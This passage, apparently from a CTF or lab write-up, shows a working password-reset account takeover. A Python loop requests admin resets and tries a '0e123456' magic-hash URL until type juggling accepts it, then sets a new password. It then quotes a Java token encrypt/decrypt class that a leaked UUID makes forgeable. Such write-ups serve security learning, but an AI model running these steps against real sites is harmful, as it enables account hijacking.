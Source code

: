 i created two functions for the exploit: `ResetLink()` and `Test()`. `ResetLink()` sends a password reset request to the server using the `forgot password` endpoint. it submits the admin email to initiate the reset process.

`Test()` checks if the server accepts the password reset link by making a `GET` request to a URL crafted with a **timestamp** `ts` and the **magic hash** `0e123456`. hopefully, it will be interpreted as scientific notation and lead to a false positive.

```python
def ResetLink():
    session.post(target + '/forgot', data={'email': email})

def Test():
    resp = session.get(f'{target}/reset/1/{ts}/0e123456')
    if "Reset your password below" in resp.text:
        return True
    else:
        return False
```

all i need to do now is to repeatedly request a password reset link using the admin's email. the `Test()` function will check if the **magic hash** URL is accepted, and, if so, a new password will be submitted, along with a confirmation of success.

```python
while True:
    ResetLink()
    if Test():
        session.post(f'{target}/reset/1/{ts}/0e123456', data={'password':password})
        print('hell yeah brother!')
        break
```

the final step is **privilege escalation**. recall the **path traversal** exploit that allowed me to retrieve the `config/uuid` file. the UUID is a critical piece because it's the key to decrypting/encrypting session tokens. let's take a look at the `Tokenizer.java` class that i'll exploit.

```java
public class Tokenizer {

    public static String decryptToken(String user, String token, String uuid) {
        try {
            SecretKey key = getKeyForUser(user, uuid);
            Cipher cipher = Cipher.getInstance("DESede/ECB/PKCS5Padding");
            cipher.init(Cipher.DECRYPT_MODE, key);
            byte[] enc = Base64.getUrlDecoder().decode(token.getBytes("UTF-8"));
            byte[] plain = cipher.doFinal(enc);
            return new String(plain, "UTF-8");
        } catch (Exception e) {
            e.printStackTrace();
            return "";
        }
    }

    public static String encryptToken(String user, String token, String uuid) {
        try {
            SecretKey key = getKeyForUser(user, uuid);
            Cipher cipher = Cipher.getInstance("DESede/ECB/PKCS5Padding");
            cipher.init(Cipher.ENCRYPT_MODE, key);
            byte[] enc = cipher.doFinal(token.getBytes("UTF-8"));
            return Base64.getUrlEncoder().encodeToString(enc);
        } catch (Exception e) {
            e.printStackTrace();
            return "";
        }
    }

```